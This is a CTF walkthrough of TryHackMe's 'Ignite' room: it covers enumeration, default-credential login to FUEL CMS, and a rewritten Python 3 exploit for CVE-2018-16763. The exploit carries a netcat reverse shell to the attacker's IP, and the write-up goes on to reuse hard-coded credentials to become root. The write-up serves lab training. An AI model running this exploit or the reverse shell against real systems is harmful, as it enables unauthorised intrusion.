

# Ignite
**Date:** October 4th 2022

**Author:** j.info

**Link:** [**Ignite**](https://tryhackme.com/room/ignite) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- User.txt
- Root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/assets               (Status: 403) [Size: 294]
/index.php            (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/robots.txt           (Status: 200) [Size: 30]
/offline              (Status: 200) [Size: 70]
```

<br>

## Website Digging

Visiting the main page we see a FUEL CMS page:


At the bottom we also see this, so maybe they haven't changed the default credentials:


Looking at the robots.txt file shows us /fuel like we saw in the nmap results earlier and nothing else. Navigating to /fuel gives us a login page:


I try and login with the admin/admin and it works:


I try and upload assets, create pages, etc to see if I can get a .php page added with reverse shell code and don't have any luck.

Checking `searchsploit fuel` to see what's out there we find 3 RCE exploits for this version of the CMS:

```
fuel CMS 1.4.1 - Remote Code Execution (1)                            | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                            | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                            | php/webapps/50477.py
```

And a `searchsploit -m 47138` to get the exploit over to my current directory. When looking through the code it's Python 2 of course. I try the 49487 and 50477 exploits and don't have any luck with them so I end up just editing the code in 47138 to get it to work with Python 3.

`python3 47138.py`

```
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>
```

You can see it returned the id command at the top and then some additional information we can ignore.

Here's a copy of the exploit code updated to work with Python 3 just to save you a little time:

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://THM-IP"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc YOUR-IP 7 4444 >/tmp/f'
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```


<br>

## System Access

Make sure you modify the code above and change the IP address in the xxxx variable to your own IP, and the first url variable to the IP of your THM instance before running this Python script.

I add reverse shell code into the exploit so that it will just automatically connect back to me and run it:

`python3 47138.py`

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.228.13] 55112
bash: cannot set terminal process group (964): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$
```

And fix my shell:

```bash
www-data@ubuntu:/var/www/html$ which python3
which python3
/usr/bin/python3
www-data@ubuntu:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@ubuntu:/var/www/html$ export TERM=xterm-256color
www-data@ubuntu:/var/www/html$
```

<br>

## System Enumeration

I check `sudo -l` and it requires a password.

Looking at /etc/passwd shows that the only user on the system with a shell is root.

Looking in the /home directory shows that the www-data user has a folder there and inside is the first flag:

`wc -c /home/www-data/flag.txt`

```bash
34 /home/www-data/flag.txt
```

Looking for out of place SUID files doesn't give us anything good, nor do files with out of the ordinary capabilities.

I look around the /var/www/html directory and find a .php file with SQL credentials in it. Note: this file was also mentioned on the main CMS webpage under step 2 when we first visited:

```
/var/www/html/fuel/application/config/database.php

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '<REDACTED>',
```

I check the database out but nothing interesting inside.

<br>

## Root

I check to see if the password works on the actual root account as well and it does:

`su root`

```bash
www-data@ubuntu:/tmp$ su root
Password: 
root@ubuntu:/tmp#
```

Well that was easy. Figured I'd have to find a way to escalate other than just using those creds!

Looking in the /root directory we find our root flag:

`wc -c /root/root.txt`

```bash
34 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a website running a vulnerable version of **FUEL CMS** (CVE-2018-16763)
- Using default credentials for the CMS to login to it
- Modifying the CVE-2018-16763 exploit code from Python 2 to Python 3 and running it to get a reverse shell
- Finding **hard coded credentials** in a database.php file for the root user that allow us to login to the MySQL database
- Finding that they also just let us switch to the root user outright

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)